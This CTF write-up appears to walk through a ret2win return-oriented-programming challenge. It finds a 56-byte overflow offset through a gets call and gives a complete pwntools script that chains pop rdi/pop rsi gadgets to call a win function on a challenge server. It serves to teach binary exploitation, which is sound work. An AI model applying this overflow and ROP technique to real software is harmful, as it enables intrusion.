









You can read an [introduction](./README.md) to the `ROP` concept

[Source code](./handout/1-ret2win_v2)

Let's check the protections first:




From the source code we need to call the win function with arguments. But it is not called in the binary. We can also see they used the `gets` (vulnerable to buffer overflow) function to take our input. We cannot execute shellcode due to `NX` be enabled. So we need to overwrite the return address of main with instructions to call the win function

First we need to find with how much data we can overwrite the return address. With the `cyclic` function of pwntools we can find how much data you need before overwriting the return address of the program.



Set a breakpoint just after the `gets` function and send the input



We can see that `RBP` is overwritten. But down bellow we can find that the next instruction to be executed after main got also overwritten.



We can calculate at what offset precisely it gets overwrote



It mean that the return address gets overwritten exactly after 56 bytes. When you send 57 bytes the return address gets overwritten.  

Now we need to retrieve from the binary instructions(gadgets) and chain them together just after our 56 bytes so after the main functions ends it runs our chains on instructions. We can retrieve them with some of the useful functions and objects of `pwntools` python package.  

Here is the final script:

```python
#!/usr/bin/env python3

from pwn import *

FILE = "./chal"
HOST = "chal.sigpwny.com"
PORT = 1392 

context.binary = FILE
elf = ELF(FILE, checksec=False)
rop = ROP(elf)

conn = remote(HOST, PORT)

pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
success(f"{hex(pop_rdi) = }")

pop_rsi = rop.find_gadget(['pop rsi', 'ret'])[0]
success(f"{hex(pop_rsi) = }")

ret = rop.find_gadget(['ret'])[0]
success(f"{hex(ret) = }")

WIN = elf.sym.win # win address 

payload = b'A' * 56
payload += p64(pop_rdi)    # put the next value on the stack into the rdi register
payload += p64(0xdeadbeef) # value into the rdi register
payload += p64(pop_rsi)    # put the next value on the stack into the rsi register
payload += p64(0xcafebabe) # value into the rsi register
payload += p64(ret)        # align the stack to 16 bytes
payload += p64(WIN)        # call win

conn.sendlineafter(b"data: ",payload)
conn.interactive()

```



### Extra!
Visualization in gdb



As we can see after the end of main function, the program will execute our `ROP chain` 

We can see it in the backtrace windows too:



[2-Silly_Syscalls](./2-Silly_Syscalls.md)

